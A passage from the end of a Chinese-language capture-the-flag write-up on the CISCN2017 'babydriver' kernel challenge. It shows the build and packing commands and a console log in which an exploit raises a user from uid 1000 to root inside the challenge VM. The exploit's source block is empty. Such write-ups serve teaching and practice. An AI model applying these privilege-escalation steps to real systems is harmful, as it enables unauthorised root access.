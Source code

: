 ```C
```

### get root shell
```bash
// 静态编译文件，kernel 中没有 libc
CISCN2017_babydriver [master●●] gcc exploit.c -static -o exploit
CISCN2017_babydriver [master●●] file exploit
exploit: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=90aabed5497b6922fda3d5118e4aa9cb2fa5ccc5, not stripped
// 把编译好的 exp 解压后的目录下，重新打包 rootfs.cpio
CISCN2017_babydriver [master●●] cp exploit core/tmp 
CISCN2017_babydriver [master●●] cd core 
core [master●●] find . | cpio -o --format=newc > rootfs.cpio
7017 块
core [master●●] cp rootfs.cpio ..
core [master●●] cd ..
// kvm 需要有 root 权限
CISCN2017_babydriver [master●●] sudo ./boot.sh
......
......

/ $ ls /tmp/
exploit
/ $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
/ $ /tmp/exploit
[   14.376187] device open
[   14.376715] device open
[   14.377201] alloc done
[   14.377629] device release
[+] root now.
/ # id
uid=0(root) gid=0(root) groups=1000(ctf)
/ #

```

当然也可以用 rop 来做，放到下一篇分析


## Reference

https://bbs.pediy.com/thread-247054.htm

https://whereisk0shl.top/NCSTISC%20Linux%20Kernel%20pwn450%20writeup.html

http://muhe.live/2017/07/13/babydriver-writeup/

https://www.anquanke.com/post/id/86490
